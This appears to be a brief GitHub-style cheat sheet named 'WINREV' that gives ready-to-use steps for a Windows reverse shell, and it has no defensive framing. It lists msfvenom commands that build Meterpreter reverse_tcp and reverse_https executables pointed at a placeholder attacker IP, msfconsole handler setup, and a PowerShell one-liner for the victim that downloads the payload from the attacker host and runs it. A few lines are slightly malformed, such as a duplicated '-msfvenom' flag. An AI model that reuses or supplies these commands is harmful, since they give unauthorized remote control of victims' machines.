 # WINREV

Reverse Shell for Windows

## On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > <FILENAME>`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`


## On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER_IP>/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`

## For https

### MsfVenom
```bash
msfvenom -msfvenom -p windows/meterpreter/reverse_https LHOST=<tu dirección IP> LPORT=<puerto> -f exe -o payload.exe
```

### MsfConsole
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST <tu dirección IP>
set LPORT <puerto>
set EnableStageEncoding true
set EnableUnicodeEncoding true
generate -t <ruta del certificado PEM>
```
